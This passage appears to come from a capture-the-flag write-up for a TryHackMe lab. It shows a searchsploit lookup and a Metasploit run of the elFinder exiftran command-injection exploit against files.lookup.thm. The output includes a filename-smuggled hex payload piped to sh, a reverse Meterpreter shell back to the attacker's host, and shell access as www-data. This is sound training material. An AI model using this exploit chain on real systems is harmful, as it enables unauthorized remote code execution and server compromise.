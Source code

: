   ```
  elFinder Web file manager Version - 2.1.53 Remote Command Execution                | php/webapps/51864.txt
  ----------------------------------------------------------------------------------- ---------------------------------
  Shellcodes: No Results
  ```
  
- Start a Metasploit, use the exploit, fill all parameters and run it.

  ```
  msf6 > search elfinder

  Matching Modules
  ================
  
     #  Name                                                               Disclosure Date  Rank       Check  Description
     -  ----                                                               ---------------  ----       -----  -----------
     0  exploit/multi/http/builderengine_upload_exec                       2016-09-18       excellent  Yes    BuilderEngine Arbitrary File Upload Vulnerability and execution
     1  exploit/unix/webapp/tikiwiki_upload_exec                           2016-07-11       excellent  Yes    Tiki Wiki Unauthenticated File Upload Vulnerability
     2  exploit/multi/http/wp_file_manager_rce                             2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution
     3  exploit/linux/http/elfinder_archive_cmd_injection                  2021-06-13       excellent  Yes    elFinder Archive Command Injection
     4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection
  
  msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS files.lookup.thm
  RHOSTS => files.lookup.thm
  msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST [YOUR-THM-IP]
  LHOST => [YOUR-THM-IP]
  msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
  [*] Started reverse TCP handler on [YOUR-THM-IP]:4444 
  [*] Uploading payload 'sQUJIe.jpg;echo 6370202e2e2f66696c65732f7351554a49652e6a70672a6563686f2a202e464959745a436c652e706870 |xxd -r -p |sh& #.jpg' (1922 bytes)
  [*] Triggering vulnerability via image rotation ...
  [*] Executing payload (/elFinder/php/.FIYtZCle.php) ...
  [*] Sending stage (40004 bytes) to 10.10.13.84
  [+] Deleted .FIYtZCle.php
  [*] Meterpreter session 1 opened ([YOUR-THM-IP]:4444 -> 10.10.13.84:45108) at 2025-05-31 20:08:41 +0100
  [*] No reply
  [*] Removing uploaded file ...
  [+] Deleted uploaded file
  
  meterpreter > shell
  Process 1951 created.
  Channel 0 created.
  whoami
  www-data
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
